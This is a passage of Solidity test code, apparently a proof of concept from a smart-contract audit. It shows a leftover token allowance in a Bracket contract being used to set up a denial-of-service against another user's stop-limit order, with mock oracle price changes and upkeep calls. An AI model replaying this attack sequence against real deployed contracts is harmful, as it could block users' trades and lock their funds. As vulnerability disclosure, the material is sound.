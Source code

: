 ```solidity
            performData,
            (MasterUpkeepData)
        );

        masterUpkeepData.txData = txData;
        masterUpkeepData.target = address(swapRouter02);

        performData = abi.encode(masterUpkeepData);

        bracket.performUpkeep(performData);

        // now the Bracket contract has a remaining allowance of USDC
        uint256 allowanceRemaining = IERC20(USDC).allowance(
            address(bracket),
            address(swapRouter02)
        );
        assertGt(allowanceRemaining, 0);

        // +------------------------------------+
        // |             Target DOS             |
        // +------------------------------------+

        mockOracleWETH.updatePrice(5000 * 1e8);

        // user2 creates a similar stop limit order, he wants to use 5000 USDC to buy WETH
        vm.prank(user2);
        stopLimit.createOrder({
            stopLimitPrice: 22222, // exchange rate when 1 WETH = 4500 USDC
            takeProfit: 0,
            stopPrice: 24612, // exchange rate when 1 WETH ≈ 4063 USDC
            amountIn: 5000 * 1e6,
            tokenIn: IERC20(USDC),
            tokenOut: IERC20(WETH),
            recipient: user2,
            feeBips: 0,
            takeProfitSlippage: 0,
            stopSlippage: 10000,
            swapSlippage: 0,
            swapOnFill: false,
            permit: false,
            permitPayload: bytes("")
        });

        mockOracleWETH.updatePrice(4500 * 1e8);

        (upkeepNeeded, performData) = stopLimit.checkUpkeep(bytes(""));
        assertEq(upkeepNeeded, true);

        stopLimit.performUpkeep(performData);

        mockOracleWETH.updatePrice(4063 * 1e8);

        (upkeepNeeded, performData) = bracket.checkUpkeep(bytes(""));
        assertEq(upkeepNeeded, true);

        // perform upkeep on user2's order
        txData = abi.encodeWithSignature(
            "exactInputSingle((address,address,uint24,address,uint256,uint256,uint160))",
            ISwapRouter02.ExactInputSingleParams({
                tokenIn: USDC,
                tokenOut: WETH,
                fee: 3000,
                recipient: address(bracket),
```